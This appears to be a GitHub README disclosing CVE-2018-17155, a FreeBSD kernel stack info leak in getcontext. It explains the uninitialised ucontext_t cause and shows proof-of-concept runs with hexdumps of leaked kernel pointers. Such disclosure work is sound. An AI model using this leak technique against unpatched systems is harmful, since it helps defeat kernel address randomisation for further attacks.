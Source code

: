 # CVE-2018-17155

This is a classic stack-based kernel memory disclosure of 2 1/2 kernel pointers. This issue was assingned [CVE-2018-17155 / FreeBSD-EN-18:12.mem](https://www.freebsd.org/security/advisories/FreeBSD-EN-18:12.mem.asc). It was anounced and patched on 2018-09-27.

## Description

One leak is in the syscall getcontext (421) and one probably in syscall swapcontext (423) since there is the same pattern. Both functions are implemented in sys/kern/kern_context.c. The root cause is that a ucontext_t structure is allocated on the kernel stack. This is a rather complicated structure and it seems that only parts of it are zero'd out. However, this should be done in the function sys_getcontext. As a result this leaks around 20 bytes of kernel memory to user space (in the case of sys_getcontext, should be the same in the case of sys_swapcontext, though I did not test this). If there were kernel ASLR it would be broken since interesting kernel pointers are leaked. Furthermore, we can not be 100% sure whats left on the kernel stack.

I've attached a PoC to test this. First lets execute it on FreeBSD 11.2 amd64 (fully patched):

``` shell
 ➜  ~ kldstat
 Id Refs Address            Size     Name
  1    1 0xffffffff80200000 20aeee8  kernel
 ➜  ~ ./getcontext
 Sizeof ucontext_t is 880 bytes.
 ➜  ~ hehexdump ucp_dump.bin
 0000000 0000 0000 0000 0000 0000 0000 0000 0000
 0000010 0000 0000 0000 0000 01a5 0000 0000 0000
 0000020 0000 00e2 0008 0000 0000 0000 0000 0000
 0000030 0000 0000 0000 0000 0370 0000 0000 0000
 0000040 0020 0000 0000 0000 0000 0000 0000 0000
 0000050 db40 ffff 7fff 0000 daf0 ffff 7fff 0000
 0000060 0000 0000 0000 0000 0000 00e2 0008 0000
 0000070 db38 ffff 7fff 0000 0000 0000 0000 0000
 0000080 0001 0000 0000 0000 db50 ffff 7fff 0000
 0000090 8c88 0340 0013 001b 8cc0 0340 f800 ffff
 00000a0 0001 0000 003b 003b 9000 0a34 f800 ffff
 00000b0 d6da 008b 0008 0000 0043 0000 0000 0000
 00000c0 0206 0000 0000 0000 daa8 ffff 7fff 0000
 00000d0 003b 0000 0000 0000 0320 0000 0000 0000
 00000e0 0002 0001 0000 0000 0001 0002 0000 0000
 00000f0 037f 0000 0000 0000 0000 0000 0000 0000
 0000100 0000 0000 0000 0000 1f80 0000 ffff 0002
 0000110 0000 0000 0000 0000 0000 0000 0000 0000
 *
 00001a0 0020 0000 0000 0000 0000 0000 0000 0000
 00001b0 0000 0000 0000 0000 0020 0000 0000 0000
 00001c0 4261 0000 0000 0000 6261 0000 0000 0000
 00001d0 0004 0000 0000 0000 0004 0000 0000 0000
 00001e0 0000 0000 0000 0000 0000 0000 0000 0000
 *
 0000200 0261 0000 0000 0000 2261 0000 0000 0000
 0000210 4000 0000 0000 0000 4000 0000 0000 0000
 0000220 0000 0000 0000 0000 0000 0000 0000 0000
 *
 00002f0 7128 0062 0008 0000 0000 0000 0000 0000
 0000300 0000 0000 0000 0000 0000 0000 0000 0000
 *
 0000330 4242 4242 4242 4242 4242 4242 4242 4242
 *
 0000370
```

The bytes are leaked around 0x90 and 0xa0. To really see the leakage, use the patch kern_context_test.patch. This initializes the ucontext_t structure with 0x45 bytes.

``` shell
 ➜  ~ ./getcontext
 Sizeof ucontext_t is 880 bytes.
 ➜  ~ hexdump ucp_dump.bin
 0000000 0000 0000 0000 0000 0000 0000 0000 0000
 0000010 0000 0000 0000 0000 01a5 0000 0000 0000
 0000020 0000 00e2 0008 0000 0000 0000 0000 0000
 0000030 0000 0000 0000 0000 0370 0000 0000 0000
 0000040 0020 0000 0000 0000 0000 0000 0000 0000
 0000050 db40 ffff 7fff 0000 daf0 ffff 7fff 0000
 0000060 0000 0000 0000 0000 0000 00e2 0008 0000
 0000070 db38 ffff 7fff 0000 0000 0000 0000 0000
 0000080 0001 0000 0000 0000 db50 ffff 7fff 0000
 0000090 4545 4545 0013 001b 4545 4545 4545 4545
 00000a0 0001 0000 003b 003b 4545 4545 4545 4545
 00000b0 d6da 008b 0008 0000 0043 0000 0000 0000
 00000c0 0206 0000 0000 0000 daa8 ffff 7fff 0000
 00000d0 003b 0000 0000 0000 0320 0000 0000 0000
 00000e0 0002 0001 0000 0000 0001 0002 0000 0000
 00000f0 037f 0000 0000 0000 0000 0000 0000 0000
 0000100 0000 0000 0000 0000 1f80 0000 ffff 0002
 0000110 0000 0000 0000 0000 0000 0000 0000 0000
 *
 00001a0 0020 0000 0000 0000 0000 0000 0000 0000
 00001b0 0000 0000 0000 0000 0020 0000 0000 0000
 00001c0 4261 0000 0000 0000 6261 0000 0000 0000
 00001d0 0004 0000 0000 0000 0004 0000 0000 0000
 00001e0 0000 0000 0000 0000 0000 0000 0000 0000
 *
 0000200 0261 0000 0000 0000 2261 0000 0000 0000
 0000210 4000 0000 0000 0000 4000 0000 0000 0000
 0000220 0000 0000 0000 0000 0000 0000 0000 0000
 *
 00002f0 7128 0062 0008 0000 0000 0000 0000 0000
 0000300 0000 0000 0000 0000 0000 0000 0000 0000
 *
 0000330 4242 4242 4242 4242 4242 4242 4242 4242
 *
 0000370
```
